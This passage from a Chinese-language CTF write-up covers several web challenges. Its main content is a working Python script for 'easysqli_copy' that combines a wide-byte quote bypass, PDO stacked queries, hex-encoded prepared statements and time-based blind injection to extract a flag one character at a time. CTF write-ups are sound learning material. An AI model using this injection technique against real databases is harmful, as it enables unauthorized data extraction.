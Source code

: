 ```python

r = requests.post(
    'http://127.0.0.1/update.php', data=data
)

print(r.text)
print(r.headers)
```

### babysqli

没时间看了，看解题人数比上一题反序列化简单

### DAY 2

### easysqli_copy

PDO堆叠 + 宽字节 + 延时，家里路由器无线桥接后信号一直不太好，脚本跑了半天。延时注入有必要弄一堆奇怪又长的列名来浪费时间吗，而且题目本身就select了一列，flag占一列，为什么要设置总共>=四列，觉得你的列名很萌萌哒吗

```python
// python2
import requests

url = 'http://addeb1bebcfb48f6a3e6a2c74972ef2fa77a6c4ab4fb41f9.changame.ichunqiu.com/?id='

flag = 'flag{09d3acb6-'

# balabala,eihey,fllllll4g,(后面还有列，我服了，憨憨出题人)
for i in range(15, 50):
    for w in '-0123456789abcdef}':
        _id = '%bf%27;set%20@sql=0x{};prepare%20stmt%20from%20@sql;execute%20stmt;/*'
        payload = 'select if(ascii(mid((select group_concat(fllllll4g) from table1),{},1))={},sleep(3),0)'.format(i, ord(w))
        _id = _id.format(payload.encode('hex'))

        try:
            requests.get(url+_id, timeout=3)
        except:
            flag += w
            break
    print(flag)
```

### another 2 SQLi

又是注入，不做了88

### DAY 3

最后一天了认真打，今天ak了
